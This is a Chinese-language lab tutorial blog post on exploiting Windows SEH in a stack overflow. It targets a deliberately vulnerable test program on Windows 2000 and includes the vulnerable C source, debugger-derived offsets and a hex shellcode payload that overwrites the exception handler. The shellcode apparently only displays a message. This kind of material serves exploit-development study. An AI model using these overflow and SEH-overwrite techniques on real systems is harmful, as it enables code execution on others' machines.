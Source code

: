 ```yaml
---
layout:		post
title:		在栈溢出中利用S.E.H
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyExceptionhandler()
{
	printf("got an exception, press Enter to kill process!\n");
	getchar();
	ExitProcess(1);

	return 0;
}

void test(char *input)
{
	char buf[200];
	int zero=0;
	__asm int 3;
	__try
	{
		strcpy(buf,input);
		zero=4/zero;
	}
	__except(MyExceptionhandler()){};
}

int main()
{
	test(shellcode);

	return 0;
}
```


### 0x01 exploit

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试

![](/assets/img/exploit/2017-10-01-windows-2000-stackseh/0x00.png)

单步到rep movsd指令, 执行后观察栈区, 此时正在把shellcode copy到栈上, 起始栈地址0x0012FE98

![](/assets/img/exploit/2017-10-01-windows-2000-stackseh/0x01.png)

View->SEH chain, 定位到最近的S.E.H结构, 栈地址0x0012FF68

![](/assets/img/exploit/2017-10-01-windows-2000-stackseh/0x02.png)

strcpy的起始地址0x0012FE98与S.E.H的异常句柄0x0012FF6C相隔212 byte

![](/assets/img/exploit/2017-10-01-windows-2000-stackseh/0x03.png)

如下组织212 byte的payload, 最后213~216 byte覆盖为shellcode起始地址0x0012FE98

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x98\xfe\x12\x00";
```

pwn~

![](/assets/img/exploit/2017-10-01-windows-2000-stackseh/0x04.png)